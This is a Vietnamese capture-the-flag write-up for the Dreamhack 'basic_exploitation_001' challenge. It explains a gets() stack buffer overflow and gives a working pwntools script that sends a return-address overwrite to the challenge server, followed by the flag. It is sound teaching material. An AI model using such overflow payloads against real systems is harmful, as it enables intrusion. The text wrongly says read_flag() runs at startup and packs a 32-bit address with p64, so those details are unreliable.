


**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

Hàm read_flag(), nó sử dụng hàm system() để thực thi lệnh cat /flag, có nghĩa là in ra nội dung của tệp /flag. Vì hàm này sẽ được gọi khi chương trình chạy, nó sẽ in ra nội dung của tệp /flag mà không cần xác thực người dùng.

Hàm main() là hàm chính của chương trình. Nó định nghĩa một mảng buf với kích thước 0x80 (hoặc 128 byte). Sau đó, nó gọi hàm initialize() để cấu hình chương trình.

Sau đó, chương trình sử dụng hàm gets() để nhận input từ người dùng. Ở hàm gets không giới hạn ghi bao nhiêu byte -> Có lỗi bof

**2. Ý tưởng**

Ghi byte rác từ biến buf đến ret rồi đưa địa chỉ hàm ```read_flag()``` vào để in ra flag.

**3. Khai thác**

```
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
```

Khoảng cách từ biến buf đến ebp là 0x80. Vậy khoảng cách từ biến buf đến ret là 0x80 + 0x4.

Vậy tạo 0x80 + 0x4 byte rác để ghi từ buf đến ret rồi sử dụng ```exe.sym['read_flag']``` để ghi địa chỉ hàm ```read_flag``` vào ret

```
payload = b'a'*(0x80 + 0x4)
payload += p64(exe.sym['read_flag'])
```

Đặt breakpoint ở ret để kiểm tra có trả về hàm ```read_flag``` không.



Vậy chương trình đã return về hàm ```read_flag```

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_001')
#r = process(exe.path)
r = remote('host3.dreamhack.games', 15853)

payload = b'a'*(0x80 + 0x4)
payload += p64(exe.sym['read_flag'])
#input()
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**



```Flag: DH{01ec06f5e1466e44f86a79444a7cd116}```